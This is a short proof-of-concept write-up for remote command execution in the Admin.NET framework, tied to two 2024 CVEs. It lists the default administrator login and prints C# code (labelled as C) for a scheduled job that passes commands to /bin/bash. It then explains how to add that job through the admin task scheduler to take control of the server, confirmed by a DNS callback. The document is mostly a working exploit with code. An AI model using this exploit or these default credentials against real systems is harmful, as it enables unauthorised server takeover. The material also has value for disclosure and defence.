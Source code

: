 



# Admin.NET（CVE-2024-28257/CVE-2024-28256）

github:https://github.com/zuohuaijun/Admin.NET



Default account password:superadmin / 123456

![image-20240222165158445](adminnet.assets/image-20240222165158445.png)





code

```c
using Furion;
using Furion.Logging;
using Furion.RemoteRequest.Extensions;
using Furion.Schedule;
using Microsoft.Extensions.DependencyInjection;
using System;
using System.Diagnostics;
using System.Threading;
using System.Threading.Tasks;

namespace Admin.NET.Core
{
    [JobDetail("YourJobId")]
    public class DynamicJob : IJob
    {
        private readonly IServiceProvider _serviceProvider;

        public DynamicJob(IServiceProvider serviceProvider)
        {
            _serviceProvider = serviceProvider;
        }

        public async Task ExecuteAsync(JobExecutingContext context, CancellationToken stoppingToken)
        {
            using var serviceScope = _serviceProvider.CreateScope();
            ExecuteCommand("ifconfig");
        }

        private void ExecuteCommand(string command)
        {
            var processStartInfo = new ProcessStartInfo
            {
                FileName = "/bin/bash",
                Arguments = $"-c \"{command}\"",
                RedirectStandardOutput = true,
                UseShellExecute = false,
                CreateNoWindow = true
            };

            var process = new Process { StartInfo = processStartInfo };
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            process.WaitForExit();
            Console.WriteLine(output);
        }
    }
}

```



Select to add a new task in system task scheduling

![image-20240222165853377](adminnet.assets/image-20240222165853377.png)



![image-20240222165945353](adminnet.assets/image-20240222165945353.png)

Write the prepared C language code and run the task to obtain control permissions on the server

![image-20240226142056330](adminnet.assets/image-20240226142056330.png)

After modifying the script, I found that it can be run directly, and then my DNS service received feedback

![image-20240226142241209](adminnet.assets/image-20240226142241209.png)
